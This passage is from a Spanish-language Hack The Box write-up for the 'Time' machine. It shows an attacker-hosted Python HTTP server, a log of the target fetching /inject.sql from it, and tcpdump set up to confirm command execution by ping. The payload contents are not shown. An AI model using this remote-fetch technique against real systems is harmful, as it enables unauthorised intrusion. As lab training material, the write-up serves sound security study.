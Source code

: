 Ahora no lo copiamos

```bash
❯ cat xd | tr -d '\n' | xclip -sel clip
```

Ahora mediante un servidor en `python3` vamos a ver si recibimos una peticion ya que de primeras va a hacer una petición a ese recurso pero por el momento no existe `inject.sql`

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![](/assets/images/htb-writeup-time/web6.png)

Ahora le damos `PROCESS` y recibimos la petición a nuestro servidor

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.141.133 - - [27/Jul/2023 13:27:28] code 404, message File not found
10.129.141.133 - - [27/Jul/2023 13:27:28] "GET /inject.sql HTTP/1.1" 404 -
```

Ahora sabiendo que si hace la petición ya podemos como tal crear el `inject.sql` con el contenido que nos dicen 

Vamos a validar si tenemos `trasa` enviándonos un `ping` a nuestra maquina de atacante

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
